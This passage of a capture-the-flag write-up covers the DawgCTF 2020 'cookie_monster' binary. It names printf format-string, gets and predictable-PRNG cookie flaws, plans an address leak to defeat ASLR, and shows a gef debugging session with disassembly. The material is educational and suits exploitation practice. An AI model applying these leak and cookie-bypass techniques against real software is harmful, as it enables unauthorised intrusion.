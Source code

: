 `conversation` has PRNG, `printf`, and `gets` vulnerabilities.

![](check_cookie.png)

`check_cookie` takes a single parameter, and compares to the global `saved_cookie` set in `conversation` using a deterministic pseudo random number generator (PRNG).  This will be easy to bypass.

There is no call to:

![](flag.png)

Clearly we want to call `flag`.

With ASLR (PIE) enabled we'll have to leak a base process address using a `printf` format string exploit (see line 17 in `conversation` above).

To determine what to leak, run `cookie_monster` with GDB (gef in my case), and set a breakpoint at `printf(local_14)`:

```
# setarch $(uname -m) -R gef ./cookie_monster
```

> I find exploit development a bit easier (consistent addresses between sessions) by disabling ASLR with `setarch $(uname -m) -R`.  Just do not hardcode any addresses :-)

```
gef➤  gef config context.nb_lines_stack 16
gef➤  disas conversation
Dump of assembler code for function conversation:
...
   0x000000000000127f <+90>:	call   0x1040 <printf@plt>
   0x0000000000001284 <+95>:	lea    rax,[rbp-0xc]
   0x0000000000001288 <+99>:	mov    rdi,rax
   0x000000000000128b <+102>:	mov    eax,0x0
   0x0000000000001290 <+107>:	call   0x1040 <printf@plt>
   0x0000000000001295 <+112>:	lea    rdi,[rip+0xde7]        # 0x2083
   0x000000000000129c <+119>:	call   0x1030 <puts@plt>
...
End of assembler dump.
gef➤  b *conversation+107
Breakpoint 1 at 0x1290
gef➤  run
Starting program: /pwd/datajerk/dawgctf2020/cookie-monster/cookie_monster
               _  _
             _/0\/ \_
    .-.   .-` \_/\0/ '-.
   /:::\ / ,_________,  \
```